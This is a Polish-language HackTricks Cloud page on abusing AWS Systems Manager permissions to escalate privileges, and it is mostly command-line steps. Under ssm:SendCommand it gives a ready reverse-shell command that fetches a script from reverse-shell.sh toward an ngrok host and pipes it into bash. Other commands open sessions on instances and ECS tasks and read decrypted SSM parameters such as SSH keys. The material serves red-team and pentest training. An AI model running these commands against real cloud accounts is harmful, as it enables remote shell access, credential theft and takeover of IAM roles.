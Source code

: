 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Aby uzyskać więcej informacji na temat SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący z uprawnieniem **`ssm:SendCommand`** może **wykonywać polecenia w instancjach** działających z Amazon SSM Agent i **kompromitować rolę IAM** działającą w jej obrębie.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
W przypadku, gdy używasz tej techniki do eskalacji uprawnień w już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

### `ssm:StartSession`

Atakujący z uprawnieniem **`ssm:StartSession`** może **rozpocząć sesję podobną do SSH w instancjach** uruchamiających agenta Amazon SSM i **skompromitować rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz mieć zainstalowany **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

#### Podniesienie uprawnień do ECS

Gdy **zadania ECS** są uruchamiane z **włączoną opcją `ExecuteCommand`**, użytkownicy z wystarczającymi uprawnieniami mogą użyć `ecs execute-command`, aby **wykonać polecenie** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) odbywa się to poprzez utworzenie bezpiecznego kanału między urządzeniem, którego używasz do inicjowania polecenia “_exec_”, a docelowym kontenerem z SSM Session Manager. (Wtyczka SSM Session Manager jest niezbędna do działania tej funkcji)\
Dlatego użytkownicy z `ssm:StartSession` będą mogli **uzyskać powłokę wewnątrz zadań ECS** z włączoną tą opcją, po prostu uruchamiając:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencjalny wpływ:** Bezpośrednie privesc do ról `ECS`IAM przypisanych do uruchomionych zadań z włączonym `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący z uprawnieniem **`ssm:ResumeSession`** może ponownie **uruchomić sesję podobną do SSH w instancjach** uruchamiających Amazon SSM Agent z **rozłączonym** stanem sesji SSM i **skompromitować rolę IAM** działającą w jej obrębie.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący z wymienionymi uprawnieniami będzie w stanie wylistować **parametry SSM** i **odczytać je w postaci tekstu jawnego**. W tych parametrach często **można znaleźć wrażliwe informacje** takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz parametrów.

### `ssm:ListCommands`

Atakujący z tym uprawnieniem może wylistować wszystkie **komendy** wysłane i miejmy nadzieję znaleźć **wrażliwe informacje** w nich.
```
aws ssm list-commands
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w liniach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący z tymi uprawnieniami może wylistować wszystkie **polecenia** wysłane i **przeczytać wygenerowany wynik**, mając nadzieję na znalezienie **wrażliwych informacji** w nim.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalny wpływ:** Znajdź wrażliwe informacje w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby uzyskać dostęp do projektu codebuild, który jest budowany:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
